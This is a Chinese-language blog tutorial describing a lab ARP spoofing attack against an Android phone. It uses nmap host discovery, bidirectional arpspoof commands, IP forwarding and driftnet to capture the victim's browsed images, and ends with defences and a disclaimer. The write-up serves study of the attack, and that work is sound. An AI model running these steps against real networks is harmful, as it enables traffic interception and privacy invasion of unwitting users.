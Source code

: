 ```yaml
---
title: ARPspoofing
author: smona
published: true
date: '2016-04-17 10:08:03.000'
layout: post
---
```


**科普**
----
ARP攻击和欺骗是网络安全中比较经典的流量截取手段，特别是适合内网攻击。整个攻击原理简单举例来说就是作为攻击方A，利用网络层的ARP协议不安全性（估计ARP协议设计时候认为网络上IP和MAC都是**很诚实地**对应），伪造应答包（包含网关IP和攻击方的MAC地址），发送给受害方B，B通过接受到攻击方发送的ARP应答包，在自己的ARP缓存表中写入了虽然是网关的IP（前提是受害方B之前没有绑定过网关IP和其对应正确的MAC，不然ARP欺骗就没有用了），但是对应的MAC却是属于攻击方A的MAC，然后受害方B在浏览网络的时候，所有流量必须经过攻击方A，通过这种手段，攻击方A可以捕获受害方的上网流量。

**说明**
--
攻击方A:LinuxMint   IP：192.168.3.100  
受害方B:某安卓手机  IP：192.168.3.101  --理论上能基于ARP协议上网的设备都可以  
网关:192.168.3.1  
工具:  
①nmap.--主机发现  
②dsniff.--ARP欺骗  
③driftnet.--图片截取  
P.s.这三个工具在软件源里面都有，sudo apt-get install packagename一下就好了，当然如果是用Kali的就不用麻烦下载安装了，直接用就好了  
本次实验目的：  
㈠对受害方B进行断网攻击  
㈡进行受害方B所浏览图片的截取.  

**ARP欺骗**
---------
**Ⅰ.首先查看自己的网络情况**
(这里是linux口令，windows是ipconfig)
```
ifconfig
```
找出本机使用的网卡,IP,子网掩码（subnet mask）  
这里攻击方A的网卡：wlan0 IP：192.168.3.100  子网掩码：255.255.255.0   
通过上面我们就可以知道我们属于的局域网的CIDR：192.168.3.100/24  

**Ⅱ.nmap主机发现**

```
nmap -sn 192.168.3.100/24
```
当然因为现在是实验，所以你会发现主机发现结果是有 “3 hosts up”，分别是网关，攻击方A和受害方B。非实验环境下还需要抓包分析目标机行为得出其对应IP地址，这里就不赘述。
这一步我们得出了局域网中的主机存活情况

**Ⅲ.ARP欺骗**
先受害方B到网关

```
arpspoof -i wlan0 -t 192.168.3.101  192.168.3.1
```

在网关到受害方B

```
arpspoof -i wlan0 -t 192.168.3.1  192.168.3.101
```
因为处于安全性考虑linux默认是关闭包转发的，所以这时候完成欺骗后，因为没有攻击机的包转发，受害方B是无法上网的，这就是所谓的ARP断网攻击，显然这只是让受害方B无法上网，我们还没有达成目标，更重要的是我们想知道受害方B所浏览的图片情况。这里我们需要打开linux的包转发功能。

**打开Linux包转发**
----------------

**a.登陆root权限**
（当然你要不嫌麻烦这步可以省略，只不过你后面要不断用sudo  还要打密码）
```
sudo su
```
**b.临时生效包转发**
cat命令查看现在ip_forward值
```
cat  /proc/sys/net/ipv4/ip_forward
0
```
输出0，表示包转发关闭，一般linux都是默认关闭的。

```
echo "1">> /proc/sys/net/ipv4/ip_forward
```

```
cat /proc/sys/net/ipv4/ip_forward
1
```
输出1，表示包转发开启.
以上提到的方法只是暂时开启，重启或者其他一些操作会让值变回0，要永久生效的办法请自行百度。
到这里真正完成ARP欺骗。

**图片抓取**
------

```
driftnet -i wlan0 -a -d /home/smona/桌面/pic
```
其中 -a 是后台，意思是不打印到显示框；而-d 是捕获图片地址路径。
受害方B所浏览的所有图片内容会一一保存到你所指定的目录内。
	

**防范**
----
ARP欺骗的防范并没有特别有效的办法，一般来说就是一下几种：

```
①arp -s 绑定网关IP和其正确的MAC，保持静态；
②arp -a 查看本机arp表发现ARP欺骗行为；
③通过ARP on,ARP wath，XARP 等工具检测ARP欺骗行为；
```
安全意识：
**个人方面**：用户在公共场合尽量不进行重要事务的处理，如若有必要尽量使用加密的方法，比如最简单的能用https的网址用https，警惕可疑的wifi等等；
**网关等服务方方面**：网关等提供服务方的配合


**免责声明**
----
本博文提供方法仅仅用来学习ARP协议以及对ARP欺骗的深入理解
不提倡用于侵犯隐私等不正当行为
最后感谢网路上的各种ARP知识和教学的帖子分享，让我受益匪浅，同样我也欢迎大家在评论指出错误和分享经验~
